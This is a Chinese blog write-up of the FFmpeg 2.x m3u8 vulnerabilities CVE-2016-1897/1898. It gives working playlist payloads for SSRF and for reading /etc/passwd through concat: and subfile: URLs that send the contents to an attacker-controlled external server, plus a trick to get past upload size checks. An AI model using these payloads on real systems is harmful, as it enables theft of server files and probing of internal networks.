





FFmpeg是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。
0x01 漏洞概述
在FFMpeg2.X 由于在解析HTTP Live Streaming流媒体m3u8文件处理不当，可导致SSRF漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用FFMpeg进行处理时会触发该漏洞。
这个漏洞有两个CVE编号，分别是CVE-2016-1897和CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897只能读取文件的第一行，而CVE-2016-1898可以读取文件任意行，原理基本一样，这里就一起分析了。
0x02 HLS（HTTP Live Streaming）
由于漏洞是出现在解析HLS流媒体文件出的问题，所以我们必须先了解HLS。
HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

如图所示，有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。
http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128
这是youku一个视频的m3u8文件，内容如下：
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST
解析：
#EXTM3U 标签是m3u8的文件头，开头必须要这一行
#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
#EXT-X-VERSION:2 该标签可有可无
#EXTINF:6, 表示该一段TS流文件的长度
#EXT-X-ENDLIST 这个相当于文件结束符
这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。
0x03 漏洞原理
SSRF漏洞：
直接用FFMpeg解析一个多媒体文件
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://192.168.123.100:8080/1.html
#EXT-X-ENDLIST
（#EXT-X-MEDIA-SEQUENCE或#EXT-X-TARGETDURATION必须存在任意一个，前者是定义ts流文件的序号。去掉会报错：无效文件）

ffmpeg -i test.m3u8 test.mp4（也可把m3u8格式改成其他后缀，ffmpeg会自动识别为HLS流文件）

直接发起了http请求，这就造成一个SSRF。
结合SSRF任意文件读取：
FFMpeg支持很多扩展协议，其中的concat:协议可以合并多个流URL，官方称为Physical concatenation protocol
这样可以合并多个URL concat:URL1|URL2|...|URLN
新建一个主HLS文件h.m3u8在web服务器
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://xxx/test.txt|http://xxx/test.txt （这两个txt都是m3u8,后缀可以随便改，ffmpeg会自动识别）
#EXT-X-ENDLIST
再创建一个下级的m3u8文件 test.txt，最终的请求会引到最下级的m3u8文件,也就是这个test.txt
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://xxx.com/?
再用ffmpeg处理test.m3u8
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXTINF:10.0,
concat:http://xxx/h.m3u8
#EXT-X-ENDLIST

提示当读取第一段的时候出错，URL是http://xxx/?#EXTM3U，但我们建立的那个下级的m3u8文件 test.txt是http://xxx.com/?，多出来的“#EXTM3U，”这部分是用concat协议合并的那个txt，http://xxx/test.txt的第一行；而ffmpeg支持多种协议获取输入流，http、ftp、smb、file等，既然用concat协议可以读取文件的第一行，那把http换成file协议就可以读取本地文件了，漏洞就出在这里。
主m3u8文件改成concat:http://xxx/test.txt|file:///etc/passwd，再请求就能读取到passwd文件的第一行，当然也可以读取内网网站的信息。
但这样就只能读取一行，意义不大。但FFMpeg支持一个截取数据流片段的功能：subfile。用法：subfile,,start,153391104,end,268142592,,:/media/dvd/VIDEO_TS/VTS_08_1.VOB
Start后是开始截取的偏移量，以字节为单位，end是结束的偏移量。
既然可以截取数据流就可以利用subfile获取比较完整的文件了。测试时候一次最多只能截取32字节，所以要继续用concat合并多个数据流片段。
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://198.56.193.29:8080/test.txt|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST
这样就可以读取任意文件的任意内容
0x04 绕过大小检测
之前的ImageMagick漏洞因为有些网站有文件大小检测而无法攻击，在这个漏洞中的测试我也发现一些网站有对上传视频文件的大小限制。这里有方法可以扩充文件大小。

直接扩充#EXTINF，这个标签前面说过，是代表TS流文件的时间长度，可以无限扩充，直到符合大小为止，仍可正常解析。
本文由 蓝骨
创作，采用 知识共享署名4.0 国际许可协议进行许可
本站文章除注明转载/出处外，均为本站原创或翻译，转载前请务必署名
最后编辑时间为: 2018-02-19T22:05:54+08:00